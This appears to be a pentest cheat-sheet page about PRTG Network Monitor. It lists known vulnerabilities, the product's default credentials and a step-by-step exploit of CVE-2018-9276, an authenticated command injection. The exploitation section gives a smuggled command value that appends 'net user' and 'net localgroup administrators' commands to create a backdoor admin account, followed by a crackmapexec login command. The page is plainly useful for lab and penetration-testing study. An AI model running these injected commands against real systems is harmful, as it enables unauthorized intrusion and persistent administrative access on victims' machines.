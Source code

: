 # PRTG network monitor
## vulnerabilites (with normal POC)
* 2 XSS  
* 1 DOS  
* Command injection (authentication needed)
  * CVE-2018-9276
  * it is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39.  

Source: https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html
## info
usually presented in internal networks (rarely on external networks)  
common ports: 80, 443, 8080, ... (web ports)  
default credentials: prtgadmin:prtgadmin  
## exploitation
https://www.codewatch.org/blog/?p=453  
Setup / Account Settings / Notifications / Add new notification  
set name field  
tick the checkbox 'Execute Program'  
Under Program File, select Demo exe notification - outfile.ps1 from the drop-down  
in the parameter field, enter a command.  
example rce code  
<pre>test.txt;net user prtgadm1 Password_123 /add;net localgroup administrators prtgadm1 /add</pre>  
click 'Save'  
search your created notification (in the notifications list) and click on the checkbox at the end of the row  
click on 'Send test notification'  
connect to the machine with the created user  
<pre>sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Password_123</pre>
